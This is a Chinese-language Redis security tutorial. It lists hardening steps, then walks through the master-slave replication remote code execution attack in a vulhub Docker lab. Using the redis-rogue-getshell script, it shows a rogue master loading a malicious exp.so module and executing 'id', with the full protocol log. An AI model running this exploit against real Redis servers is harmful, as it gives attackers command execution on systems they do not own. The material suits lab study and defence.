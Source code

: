 ## 防护方法

1. 采用绑定IP的方式来进行控制。在redis.conf文件中把`#bind 127.0.0.1`前面的注释去掉，然后把127.0.0.1改成你允许访问你的redis服务器的ip地址，只允许
   该ip进行访问，这种情况下，启动redis服务器改为:redis-server
   path/redis.conf 即在启动的时候指定需要加载的配置文件
2. 设置密码，以提供远程登陆
   打开redis.conf配置文件，在requirepass后输入redis验证密码。设置后登录需要`auth yourpassword`输入密码，才能运行命令。
3. 禁止使用root权限启动redis服务。

## redis主从复制RCE

随着现代的服务部署方式的不断发展，组件化成了不可逃避的大趋势，在docker部署模式下，一个单一的容器中不会有除redis以外的任何服务存在，包括ssh和crontab，再加上权限的严格 控制，只靠写文件就很难再getshell了。在Reids 4.x之后，Redis新增了模块功能，通过外部拓展，可以实现在Redis中实现一个新的Redis命令，通过写C 语言编译并加载恶意的.so文件，达到代码执行的目的。 

Redis是一个使用ANSIC编写的开源、支持网络、基于内存、可选持久性的键值对存储数据库。但如果当把数据存储在单个Redis的实例中，当读写体量比较大的时候，服务端就很难承受。为了应对这种情况，Redis就提供了主从模式，主从模式就是指使用一个redis实例作为主机，其他实例都作为备份机，其中主机和从机数据相同，而从机只负责读，主机只负责写，通过读写分离可以大幅度减轻流量的压力。 

### 环境搭建

```bash
root@kali:~/桌面/vulhub-master/redis/4-unacc# service docker restart 
root@kali:~/桌面/vulhub-master/redis/4-unacc# docker-compose up -d
```

### 漏洞利用 

下载[脚本](https://github.com/vulhub/redis-rogue-getshell)，在对应文件夹下编译出exp.so。-r是目标机器ip，-L为本机ip，-c执行命令。

```bash
root@NC:/mnt/f/file/redis-rogue-getshell-master/RedisModulesSDK# make
root@NC:/mnt/f/file/redis-rogue-getshell-master/# python3 redis-master.py -r 192.168.211.129 -p 6379 -L 172.31.231.118 -P 4446 -f RedisModulesSDK/exp.so -c "id"
>> send data: b'*3\r\n$7\r\nSLAVEOF\r\n$14\r\n172.31.231.118\r\n$4\r\n4446\r\n'
>> receive data: b'+OK\r\n'
>> send data: b'*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$10\r\ndbfilename\r\n$6\r\nexp.so\r\n'
>> receive data: b'+OK\r\n'
>> receive data: b'PING\r\n'
>> receive data: b'REPLCONF listening-port 6379\r\n'
>> receive data: b'REPLCONF capa eof capa psync2\r\n'
>> receive data: b'PSYNC 0173b411945247edb0f89e75cb1f36ece5f4dc99 1\r\n'
>> send data: b'*3\r\n$6\r\nMODULE\r\n$4\r\nLOAD\r\n$8\r\n./exp.so\r\n'
>> receive data: b'+OK\r\n'
>> send data: b'*3\r\n$7\r\nSLAVEOF\r\n$2\r\nNO\r\n$3\r\nONE\r\n'
>> receive data: b'+OK\r\n'
>> send data: b'*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$10\r\ndbfilename\r\n$8\r\ndump.rdb\r\n'
>> receive data: b'+OK\r\n'
>> send data: b'*2\r\n$11\r\nsystem.exec\r\n$2\r\nid\r\n'
>> receive data: b'$49\r\nJuid=999(redis) gid=999(redis) groups=999(redis)\n\r\n'
Juid=999(redis) gid=999(redis) groups=999(redis)
>> send data: b'*3\r\n$6\r\nMODULE\r\n$6\r\nUNLOAD\r\n$6\r\nsystem\r\n'
>> receive data: b'+OK\r\n'
```
